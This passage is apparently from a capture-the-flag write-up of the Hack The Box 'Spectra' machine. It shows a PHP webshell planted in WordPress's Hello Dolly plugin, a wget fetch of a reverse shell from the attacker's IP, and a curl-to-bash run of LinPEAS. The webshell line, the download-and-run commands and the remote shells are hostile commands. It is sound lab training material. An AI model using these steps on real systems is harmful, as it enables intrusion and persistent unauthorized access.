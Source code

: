 Starting this, find the "Plugins" link on the left-side pane of the administration panel. Hover the link and once the sub-menus pop up select "Plugin Editor". This should, by default, take you to Akismet (the anti-spam blocker mentioned earlier). You _can_ edit _Akismet_, but as it's a large file with lots of functionality, I always choose to backdoor the plugin _Hello Dolly_. It's much simpler and has less lines of code - remember that for a real engagement, whatever back door we place needs to A) not disrupt the regular operations and B) be in a place that's less likely to be inspected. Most of my reasoning for picking _Hello Dolly_ hinges on A because less lines of code = less chances to accidentally break something.

Once _Hello Dolly_ is open in the editor, we add in the following to sneak a webshell in:

```php
echo system($_REQUEST['cmd']);
```

Fantastic. Click "Update File" to commit your changes. Once the page refreshes, we'll open a new tab and navigate to our hidden webshell. To do this, navigate to `http://spectra.htb/main/wp-content/plugins/hello.php`. This should produce some errors - not to worry. Add on our parameter from the webshell (`?cmd=`), pass in a command, and viola we know the result of `whoami`:

![Running the whoami command in our webshell.](/assets/images/spectra/webshell_whoami.png)

And just like that, we have code execution. This isn't particularly easy to work in, though, so let's get ourselves a full reverse shell. Copy the pentestmonkey PHP reverse shell to your local directory in Kali like so: `cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php`. Once that's moved locally, edit `shell.php` to include your IP address and preferred port for your listener. Fire up a Python dev server to serve up files (`python3 -m http.server 80`) and then use our webshell to download the file to Spectra (`http://spectra.htb/main/wp-content/plugins/hello.php?cmd=wget+http://10.10.17.239/shell.php`). Start up your `netcat` listener with `ncat -lvp 9001` and _finally_ trigger the reverse shell by browsing to `http://spectra.htb/main/wp-content/plugins/shell.php`.

Now we have our shell as `nginx` - almost there! To get into a user account, we need to do a bit more enumeration to determine both _who_ we're trying to get into and the possible _how_ to get into the account. Starting with the who, checking `/etc/passwd` reveals the following user accounts (among many system accounts):

```
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

How you proceed from here can vary from person to person - my workflow is usually to get into hiding somewhere in `/tmp` and make a folder for my beachhead. In this case `curl` is installed at `/usr/local/bin/curl` so I ran [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to take care of a lot of the manual enumeration for me. To do this, I ran a webserver where I keep linPEAS (`python3 -m http.server 80`) and then used this command: `curl http://10.10.17.239/linpeas.sh | bash | tee linpeas.txt`. Poke through some of the output and you should notice something odd here:

![LinPEAS detecting some autologin files.](/assets/images/spectra/linpeas_autologin.png)
